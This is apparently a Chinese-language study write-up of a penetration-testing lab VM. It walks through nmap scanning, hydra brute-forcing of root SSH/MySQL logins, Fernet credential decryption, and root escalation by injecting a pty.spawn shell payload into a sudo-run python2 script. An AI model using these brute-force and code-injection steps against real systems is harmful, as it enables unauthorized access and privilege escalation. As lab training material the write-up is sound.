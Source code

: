 # 笔记

## 战前准备环节

1.虚拟机突然断网

首先ifconfig，可以看到没有正在工作的网卡，只有localhost

然后ifconfig -a，可以看到eth0这块网卡并没有离家出走，只是罢工了而已

进入/etc/network

用vim打开interface文件

加入

auto eth0

iface eth0 inet dhcp

:wq保存



命令行执行/etc/init.d/networking restart



## 正式开始

### 信息收集

1.获取目标主机信息

可以用arp-scan -l扫描到靶机，但我是直接看靶机信息的

![image-20231027162452716](..\pics\image-20231027162452716.png)

192.168.127.129

2.作端口扫描

nmap -p- 192.168.127.129

![image-20231027162540094](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027162540094.png)

有一个mysql端口，另一个还不知道，再扫版本和信息

nmap -p3306,1337 -sC -sV 192.168.127.129

![image-20231027162706141](..\pics\image-20231027162706141.png)

另一个是ssh端口



### 开始渗透

准备爆破字典

cp /usr/share/wordlists/rockyou.txt.gz . 

这行指令还真能搞出来一个文件，**具体原理还不知道，需要后续学习**

gunzip rockyou.txt.gz 



对ssh端口和mysql端口分别进行爆破（使用hydra）

hydra -l root -P rockyou.txt ssh://192.168.127.129:1337/

hydra -l root -P rouckyou.txt mysql://192.168.127.129

得到mysql上爆破成功

![image-20231027163006644](..\pics\image-20231027163006644.png)



登录mysql

mysql -u root -h 192.168.127.129 -p

输入密码，登录

爆库，爆表

![image-20231027163132349](..\pics\image-20231027163132349.png)

![image-20231027163145367](D:\1-政企业务\pics\image-20231027163145367.png)

fernet解密：https://cryptography.io/en/latest/fernet/

填入参数来解密

![image-20231027163233879](..\pics\image-20231027163233879.png)

得到的用户名和密码，尝试ssh登录

ssh lucy@192.168.127.129 -p 1337

![image-20231027163414692](..\pics\image-20231027163414692.png)

成功登录，然后sudo -l查看当前用户能够做什么

能够python2运行exp

先cat /opt/exp.py看里面是什么

![image-20231027163509358](..\pics\image-20231027163509358.png)

### 提权

raw_input函数，可以尝试python2提权，参考https://blog.csdn.net/qq_40898302/article/details/124681969

 -c : 执行具体的代码

import ：导入语句

pty ： 终端（接口）

pty.spawn : 执行命令

import pty;pty.spawn('/bin/bash')

执行之后，提权成功

![image-20231027163639280](..\pics\image-20231027163639280.png)

## 知识点总结

1.使用arp-scan扫描本网段下存活的主机

然后nmap扫描端口，对未知端口可以使用-sC -sV探测详细信息

2.准备爆破字典的两个命令，需要再学习

3.hydra语句爆破的学习

4.mysql语句连接的学习，以及在数据库中查询语句的学习

5.fernet加密的学习，包括使用python3解密的学习

![image-20231027164332984](..\pics\image-20231027164332984.png)

6.成功连接主机之后的提权：sudo -l查看当前用户的权限

对代码审计的理解，raw_input是经典的函数

![image-20231027164240323](..\pics\image-20231027164240323.png)

且有exec函数，考虑代码注入



### 问题点

#### 爆破字典指令是怎么实现的



#### mysql查出的关键信息如何判定就是用于ssh的



#### /bin/bash一段的重要性？在mysql环节是有使用到的



#### python2提权代码的深入理解

经过验证，直接su也可以

![image-20231027165454287](..\pics\image-20231027165454287.png)

(root)NOPASSWD指明了使用sudo权限的时候使用这些命令不需要输入密码

import pty;

pty.spawn('su')

这两行就是执行su的意思

由于raw_input接收了这两行，并且被exec执行

因此原代码行等价于

sudo python2 exec(import pty;pty.spawn('su'))

又因为使用python2 执行exp.py不需要密码

因此等价于

sudo su且不需要输入密码

因此能提权成功

